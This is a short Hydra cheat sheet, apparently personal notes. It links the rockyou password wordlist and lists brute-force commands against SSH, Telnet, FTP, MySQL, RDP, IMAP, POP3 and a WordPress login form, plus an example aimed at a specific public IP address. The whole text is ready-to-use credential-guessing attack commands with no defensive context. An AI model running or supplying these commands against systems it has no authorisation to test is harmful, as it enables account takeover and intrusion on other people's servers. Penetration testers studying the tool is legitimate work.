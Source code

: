 # Hydra

```
https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
```


Guess SSH credentials using a given username and a list of passwords: 
```
hydra -l username -P path/to/wordlist.txt host_ip ssh
```
Guess Telnet credentials using a list of usernames and a single password, specifying a non-standard port and IPv6: 
```
hydra -L path/to/usernames.txt -p password -s port -6 host_ip telnet
```
Guess FTP credentials using usernames and passwords lists, specifying the number of threads: 
```
hydra -L path/to/usernames.txt -P path/to/wordlist.txt -t n_tasks host_ip ftp
```
Guess MySQL credentials using a username and a passwords list, exiting when a username/password pair is found: 
```
hydra -l username -P path/to/wordlist.txt -f host_ip mysql
```
Guess RDP credentials using a username and a passwords list, showing each attempt: 
```
hydra -l username -P path/to/wordlist.txt -V rdp://host_ip
```
Guess IMAP credentials on a range of hosts using a list of colon-separated username/password pairs: 
```
hydra -C path/to/username_password_pairs.txt imap://[host_range_cidr]
```
Guess POP3 credentials on a list of hosts using usernames and passwords lists, exiting when a username/password pair is found: 
```
hydra -L path/to/usernames.txt -P path/to/wordlist.txt -M path/to/hosts.txt -F pop3
```
Hydra sobre WP
```
hydra -l admin -P kaonashi14M.txt www.xxxxx.com http-post-form "/wordpress/wp-login.php:user_login=^USER^&user_pass=^PASS^:Incorrect" -t 4 
```

Example:
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz -s 9993 82.165.37.232 -t 4 ssh
```
